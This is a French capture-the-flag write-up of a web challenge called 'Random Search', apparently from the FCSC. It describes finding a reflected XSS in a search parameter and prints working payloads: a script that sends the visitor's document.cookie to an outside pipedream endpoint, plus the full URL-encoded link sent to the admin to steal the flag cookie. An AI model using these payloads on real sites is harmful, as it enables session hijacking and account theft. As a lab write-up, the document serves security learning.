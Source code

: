 # Random Search
<img src="https://media.discordapp.net/attachments/768928242467340328/840138995673071616/unknown.png"/><br/>
Challenge web super basique, on doit trouver un moyen de voler le cookie de l'administrateur.<br/>
## Résolution
En visitant le site qui nous est donné, je vois deux points intéressants.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/840139522376335370/unknown.png?width=1440&height=550"/><br/>
On a un contexte d'XSS plutôt récurrent où on peut contacter l'administrateur.<br/>
On a notamment un searchbar à notre disposition. Je décide m'attaquer dessus.<br/>
Premièrement je teste cette payload ```<svg/onload=prompt();>```.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/840140153799311380/unknown.png?width=1440&height=470"/><br/>
Le searchbar est vulnérable aux attaques XSS. On a donc notre point d'injection.<br/>
En premier temps je crée un requestbin sur https://pipedream.com/ <br/>
Cette payload est une redirection vers mon pipedream.<br/><br/>
```<script>document.location="https://enx36kg9aihcldt.m.pipedream.net?cookie="+document.cookie;</script>```<br/>
Je pose la payload dans le paramètre search.<br/><br/>
```http://challenges2.france-cybersecurity-challenge.fr:5001/index.php?search=%3Cscript%3Edocument.location%3D%22https%3A%2F%2Fenx36kg9aihcldt.m.pipedream.net%3Fcookie%3D%22%2Bdocument.cookie%3B%3C%2Fscript%3E```<br/><br/>
J'envoie ce lien dans le contact et après quelques minutes j'ai un retour sur mon pipedream.<br/>
Et hop je vois le flag dans le header cookie.<br/><br/>
```?cookie=admin=FCSC{4e0451cc88a9a96e7e46947461382008d8c8f4304373b8907964675c27d7c633}```
